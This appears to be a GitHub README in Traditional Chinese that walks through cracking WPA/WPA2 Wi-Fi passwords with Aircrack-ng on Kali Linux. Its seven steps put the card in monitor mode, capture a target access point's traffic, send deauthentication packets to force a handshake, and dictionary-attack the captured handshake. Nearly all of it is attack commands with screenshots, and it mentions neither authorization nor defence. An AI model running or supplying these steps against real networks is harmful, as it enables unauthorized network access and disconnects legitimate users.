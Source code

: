 # Crack wifi Password
使用Aircrack-ng暴力破解WPA/WPA2加密wifi密碼。

## **環境**
* 系統：Kali Linux
* 硬體：一台有無線網卡的電腦

## **流程**
* step1：查看無線網卡名稱
  ```shell
  ifconfig
  ```
* step2：將網卡設定為monitor模式
  ```shell
  airmon-ng start 網卡名稱
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/2.png)
* step3：搜尋目前位置所有 AP 站台
  ```shell
  airodump-ng 網卡監聽後的名稱
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/3.png)
* step4：使用`airodump-ng`開始收集封包，並將封包存在指定的目錄下
  ```shell
  airodump-ng -c 頻道 --bssid 目標AP的bssid -w 檔名 監聽網卡的名稱
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/4.png)
* step5：使用`aireplay-ng`傳送假信號讓AP與Client之間進行互動，進而抓取中間的封包(需另外開視窗動作，收集封包不能斷)
  ```shell
  aireplay-ng -0 發送阻斷封包的數量 -a 目標AP的bssid -c 特定連線主機的bssid 監聽網卡的名稱
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/5.png)
* step6：收集到 handshake
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/6.png)
* step7：使用`aircrack-ng`進行解密，(必須要擁有密碼字典檔)
  ```shell
  aircrack-ng -b 目標AP的bssid -w 密碼字典檔 使用airodump-ng收集到的arp封包
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/7-1.png)
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/7-2.png)
  
## **References**
* https://shazi.info/%E4%BD%BF%E7%94%A8-aircrack-ng-%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3-wpawpa2-%E5%8A%A0%E5%AF%86-wifi-%E5%AF%86%E7%A2%BC/
* https://zh.wikipedia.org/zh-tw/Aircrack-NG
